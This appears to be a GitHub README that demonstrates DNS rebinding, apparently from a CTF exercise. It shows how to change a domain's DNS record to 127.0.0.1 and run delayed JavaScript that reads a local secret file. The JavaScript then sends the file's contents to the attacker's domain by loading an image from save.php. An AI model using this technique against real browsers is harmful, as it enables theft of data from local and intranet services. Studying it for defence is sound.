

# Bypass Same Origin Policy - BY-SOP

Bypass Same Origin Policy with DNS-rebinding to retreive local server file.

**Goal** : retrieve a file on a private server http://127.0.0.1/secret.txt 
This normaly should by impossible due to [Same Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) but we will use DNS-rebinding attack to bypass the SOP and retreive the file.



### Victim

- visite the malicious page for at least ~2-3 minutes (playing flash game, fill a form etc)

### Attacker
    
* attacker setup a domain with a the lowest TTL (60 second, 120 for CloudFlare )
* one the victim visit the malicious page, he changes the dns IP of the domain with the local ip targeted

    - before `foo.domain.com. 59  IN  A   5.135.66.45`
    - after  `foo.domain.com. 59  IN  A   127.0.0.1`

    Since the `TTL` is very short, the attacker will make another request to retreive the private file **AFTER** the `TTL` time is up (> 59), the request has to do an additional DNS request

    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
        });
    }, 180000); //3min to be sure
    ```

    However, by changing the DNS record in the meantime, the domain will resolve to the victim page with the local IP.
        There is no more Same Origin Policy and we can retreive the content of the file.

* the content is send to another domain to save the data
    ```javascript
    setTimeout(function SOP_bypass() {
        $.get('/secret.txt', function(data) {
            // action with data
            var image = new Image();
            image.src='http://domain.com/save.php?'+data;
        });
    }, 180000); //3min to be sure
    ```

    The file `save.php` need to allow Cross-origin resource sharing (CORS) to accept the request. In PHP it can be done by adding this line `header("Access-Control-Allow-Origin: *.domain.com");`


* finally  
    ```bash
        cat save.txt
        {"WIN{AweSome_ByPass_SOP}":""}
    ```

## Contributor

[mpgn](https://github.com/mpgn) 

## Licences

[licence MIT](https://github.com/mpgn/BY-SOP/blob/master/LICENSE)

## References

* http://www.ptsecurity.com/download/DNS-rebinding.pdf
* https://www.abortz.net/papers/dns-rebinding.pdf
* https://en.wikipedia.org/wiki/DNS_rebinding
* http://www.circleid.com/posts/070809_defending_networks_dns_rebinding_attacks/
* https://dollberg.xyz/ctf/2016/03/13/0CTF-Monkey-Writeup/
* http://secgroup.github.io/2016/03/14/0ctf-writeup-monkey/
* https://w00tsec.blogspot.fr/2016/03/0ctf-2016-write-up-monkey-web-4.html

